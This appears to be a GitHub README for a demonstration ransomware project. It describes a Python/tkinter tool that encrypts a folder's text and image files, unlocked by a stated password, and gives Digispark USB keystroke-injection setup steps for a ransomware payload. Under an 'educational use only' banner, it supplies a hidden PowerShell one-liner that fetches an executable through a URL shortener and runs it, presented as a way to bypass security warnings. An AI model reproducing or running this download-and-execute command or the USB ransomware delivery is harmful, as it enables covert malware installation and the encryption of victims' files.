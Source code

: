 
![bio](https://github.com/therealhalonen/PhishSticks/assets/112076418/8e7f742d-bdc4-41d0-9aaa-8a6493df29f7)


**EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**

**Version 1.0**

## What it is 

Simple application made with python and tkinter to demonstrate how an application can encrypt and decrypt your files with extensions {'.txt', '.jpg', '.jpeg', '.png'} in given directory. Right now the application decrypts all {'.txt', '.jpg', '.jpeg', '.png'} files when user gives up the right password (lihapulla). 

## How to use

Download and run the script or .exe file inside a safe folder with no important files (incase something goes wrong) to launch the program and enjoy

```
$ ./encrypt.py
```
OR

Bypass security warnings and download & execute the file instantly by typing the follow code into Run (Win+R) on **Windows**:
```
powershell -w hidden -c "(New-Object System.Net.WebClient).DownloadFile('https://tinyurl.com/5e8yp8mf', \"$env:UserProfile\Documents\malware.exe\");Start-Process \"$env:UserProfile\Documents\malware.exe\" -WorkingDirectory \"$env:UserProfile\Documents\""
```

How it works: https://www.youtube.com/watch?v=glqK_-qdDkw

Executable version works the same without needing different python libraries.

---

### To setup Digispark payload:
- [Setup Digispark](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark)
- Add correct Digikeyboard library to match your systems keyboard layout for example [DigiKeyboardFi.h](https://github.com/therealhalonen/DigiKeyboardFi/blob/master/DigiKeyboardFi.h) for Finnish keyboards (made by [therealhalonen](https://github.com/therealhalonen))
- Path of the file for Windows: C:/Users/username/Documents/Arduino/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- Path of the file for Linux: ~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- compile and upload [digispark_ransomware.ino](https://github.com/therealhalonen/PhishSticks/blob/master/digispark/digispark_ransomware/digispark_ransomware.ino) to your digispark
- Plug the Digispark in a computers USB slot and enjoy
  
![2023-10-31_12-24](https://github.com/therealhalonen/PhishSticks/assets/112076418/490686db-b5c4-4c00-9f7f-bc3006bd742b)

Watch the video to see it in action: https://www.youtube.com/watch?v=Bi2QOMSHeKI
